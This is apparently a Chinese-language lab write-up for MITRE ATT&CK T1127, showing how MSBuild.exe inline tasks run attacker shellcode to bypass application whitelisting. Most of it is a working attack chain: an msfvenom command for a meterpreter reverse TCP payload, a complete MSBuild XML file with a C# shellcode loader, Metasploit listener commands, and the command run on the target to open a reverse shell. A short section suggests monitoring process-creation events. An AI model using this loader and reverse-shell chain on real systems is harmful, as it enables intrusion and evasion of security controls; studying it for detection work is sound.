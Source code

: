 # T1127-win-基于白名单Msbuild.exe执行payload

## 来自ATT&CK的描述

MSBuild.exe（Microsoft Build Engine）是Visual Studio使用的软件构建平台。它采用XML格式的项目文件，定义了各种平台的构建要求和配置。

攻击者可能会使用MSBuild通过受信任的Windows实用程序来代理执行代码。.NET 4中引入的MSBuild内联任务功能允许将C＃代码插入到XML项目文件中。内联任务MSBuild将编译并执行内联任务。MSBuild.exe是一个签名的微软二进制文件，因此当它以这种方式使用时，它可以执行任意代码并绕过配置为允许MSBuild.exe执行的应用白名单防御。

## 测试案例

MSBuild 是 Microsoft Build Engine 的缩写，代表 Microsoft 和 Visual Studio的新的生成平台。MSBuild在如何处理和生成软件方面是完全透明的，使开发人员能够在未安装Visual Studio的生成实验室环境中组织和生成产品。

MSBuild 引入了一种新的基于 XML的项目文件格式，这种格式容易理解、易于扩展并且完全受 Microsoft 支持。MSBuild项目文件的格式使开发人员能够充分描述哪些项需要生成，以及如何利用不同的平台和配置生成这些项。

说明：Msbuild.exe所在路径没有被系统添加PATH环境变量中，因此，Msbuild命令无法识别。

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

win7默认位置：

`C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe`

## 检测日志

windows 安全日志（需要自行配置）据称可以绕过360，待确认

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：windows server 2012

### 测试过程

#### MSF生成载荷

```bash
msfvenom -a x86 –platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.126.146 LPORT=4444 -f csharp
```

![载荷](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70.png)

#### XML文件设置

```xml
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
         <!-- This inline task executes shellcode. -->
         <!-- C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe SimpleTasks.csproj -->
         <!-- Save This File And Execute The Above Command -->
         <!-- Author: Casey Smith, Twitter: @subTee -->
         <!-- License: BSD 3-Clause -->
    <Target Name="Hello">
      <ClassExample />
    </Target>
    <UsingTask
      TaskName="ClassExample"
      TaskFactory="CodeTaskFactory"
      AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
      <Task>

        <Code Type="Class" Language="cs">
        <![CDATA[
    using System;
    using System.Runtime.InteropServices;
    using Microsoft.Build.Framework;
    using Microsoft.Build.Utilities;
    public class ClassExample :  Task, ITask
    {
      private static UInt32 MEM_COMMIT = 0x1000;
      private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
      [DllImport("kernel32")]
        private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,
        UInt32 size, UInt32 flAllocationType, UInt32 flProtect);
      [DllImport("kernel32")]
        private static extern IntPtr CreateThread(
        UInt32 lpThreadAttributes,
        UInt32 dwStackSize,
        UInt32 lpStartAddress,
        IntPtr param,
        UInt32 dwCreationFlags,
        ref UInt32 lpThreadId
        );
      [DllImport("kernel32")]
        private static extern UInt32 WaitForSingleObject(
        IntPtr hHandle,
        UInt32 dwMilliseconds
        );
      public override bool Execute()
      {
        byte[] shellcode = new byte[] {
你的payload};

          UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length,
      MEM_COMMIT, PAGE_EXECUTE_READWRITE);
          Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
          IntPtr hThread = IntPtr.Zero;
          UInt32 threadId = 0;
          IntPtr pinfo = IntPtr.Zero;
          hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
          WaitForSingleObject(hThread, 0xFFFFFFFF);
          return true;
      }
    }
        ]]>
        </Code>
      </Task>
    </UsingTask>
  </Project>
```

![XML文件设置](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70-20210720144459841.png)

#### 设置监听

```bash
use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.126.146
msf exploit(multi/handler) > set lport 4444
msf exploit(multi/handler) > exploit
```

![监听](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70-20210720144504285.png)

#### 靶机执行payload

```dos
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe file.xml
```

![加载payload](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70-20210720144508669.png)

#### 查看会话

![反弹会话](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70-20210720144513157.png)

## 测试留痕

![日志留痕](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70-20210720144517430.png)

## 检测规则/思路

无具体检测规则，可根据进程创建事件4688/1（进程名称、命令行）进行监控。本监控方法需要自行安装配置审核策略/sysmon。

## 参考推荐

MITRE-ATT&CK-T1127

<https://attack.mitre.org/techniques/T1127/>

利用msbuild.exe绕过应用程序白名单安全机制的多种姿势

<https://www.freebuf.com/articles/network/197706.html>

GreatSCT|MSF|白名单

<http://www.secist.com/archives/6082.html>

对亮神基于白名单Msbuild.exe执行payload第一季复现

<https://blog.csdn.net/ws13129/article/details/89736941>

检测白名单Msbuild.exe执行payload

<https://blog.csdn.net/qq_36334464/article/details/105487176>

基于白名单执行payload

<https://www.jianshu.com/p/cdb1867c6abb>
